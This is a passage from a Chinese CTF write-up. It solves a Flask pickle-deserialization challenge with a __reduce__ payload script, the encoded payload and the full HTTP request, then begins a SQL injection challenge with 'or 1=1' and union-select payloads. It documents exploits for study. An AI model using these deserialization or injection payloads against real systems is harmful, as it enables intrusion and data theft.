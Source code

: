 用POST方法请求`/flag`接口，程序使用`pickle.dumps`方法反序列化提交的`pickle_data`参数，并返回反序列化结果

构造`__reduce__`方法进行rce

```python
import pickle
import base64
from urllib.parse import urlencode

class myflaskrce:
	def __reduce__(self):
		return (open, ('/flag', 'r'))
	
payload = base64.b64encode(pickle.dumps(myflaskrce()))
post_params = {'pickle_data': payload}
print(urlencode(post_params))
```

执行脚本，得到payload

```
pickle_data=gANjaW8Kb3BlbgpxAFgFAAAAL2ZsYWdxAVgBAAAAcnEChnEDUnEELg%3D%3D
```

随后发包

```http
POST /flag HTTP/1.1
Host: 139.196.183.57:32139
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: session=eyJ1c2VybmFtZSI6ImFkbWluIn0.Zc8ulQ.hoc3E0E5-vcmVRCr9gVve05SKG4
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

pickle_data=gANjaW8Kb3BlbgpxAFgFAAAAL2ZsYWdxAVgBAAAAcnEChnEDUnEELg%3D%3D
```

![image-20240216174805888](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240216174805888.png)

### [search4member]

sql注入--堆叠注入实现rce

尝试`a' or 1=1 --+`，得到表中所有数据

回显有三个字段。查询库名：

```
a' union select 1,2,database() --+
```

![image-20240221210856523](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240221210856523.png)
